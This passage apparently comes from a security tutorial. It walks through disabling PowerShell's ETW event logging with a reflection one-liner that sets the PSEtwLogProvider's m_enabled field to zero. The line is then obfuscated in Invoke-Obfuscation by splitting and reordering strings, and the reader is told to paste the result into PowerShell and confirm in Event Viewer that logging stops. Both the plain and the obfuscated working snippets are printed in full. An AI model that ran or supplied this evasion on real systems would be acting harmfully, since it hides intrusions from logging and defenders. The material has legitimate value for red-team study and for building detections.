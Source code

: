 then we'll enter our script into Invoke-Obfuscation.

```powershell
SET SCRIPTBLOCK [Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

Next we'll select "token", "string" and "2", re-order.

Our output command is now:

```powershell
[Reflection.Assembly]::LoadWithPartialName(("{1}{0}{2}" -f 'm.Co','Syste','re')).GetType(("{10}{0}{6}{7}{1}{4}{11}{5}{8}{2}{9}{3}"-f '.D','i','Event','ider','cs','Eventi','iagnos','t','ng.','Prov','System','.')).GetField(("{0}{1}{2}" -f 'm','_e','nabled'),("{1}{2}{0}{3}{4}"-f 'P','No','n','ublic,I','nstance')).SetValue([Ref].Assembly.GetType(("{5}{7}{6}{4}{0}{9}{8}{2}{11}{10}{3}{1}"-f 'nagement.','er','n','rovid','Ma','Syst','.','em','tomatio','Au','cing.PSEtwLogP','.Tra')).GetField(("{0}{1}{3}{2}"-f'et','wP','vider','ro'),("{1}{3}{2}{0}"-f'tic','No','ic,Sta','nPubl')).GetValue($null),0)
```

With "copy" we can copy it to our clipboard, open a new powershell and past the command. Then check eventviewer!
